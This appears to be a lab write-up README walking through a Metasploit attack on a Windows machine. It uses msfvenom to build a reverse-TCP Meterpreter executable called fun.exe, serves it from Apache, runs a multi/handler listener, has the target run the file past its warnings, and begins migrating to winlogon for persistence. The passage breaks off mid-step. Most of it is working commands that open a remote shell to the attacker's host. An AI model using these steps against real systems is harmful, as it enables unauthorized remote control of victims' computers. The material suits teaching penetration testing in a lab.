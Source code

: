 ```bash

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="814" height="352" alt="image" src="https://github.com/user-attachments/assets/b01fd653-7d28-4586-9225-356c8ed9e9ac" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="809" height="470" alt="image" src="https://github.com/user-attachments/assets/3bc95fb6-e2d8-49d6-bb10-afc2847386ee" />



copy the fun.exe into the apache ```/var/www/html ```folder



Start apache server ```sudo systemctl apache2 start``` 



Check the status of apache2 ```sudo apache2 status```


Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="803" height="647" alt="image" src="https://github.com/user-attachments/assets/745acb96-9c7f-411d-b8b5-c205572ea804" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.



Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

<img width="1081" height="715" alt="image" src="https://github.com/user-attachments/assets/59e73bb3-63cf-4831-a581-c00d51294e2e" />


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
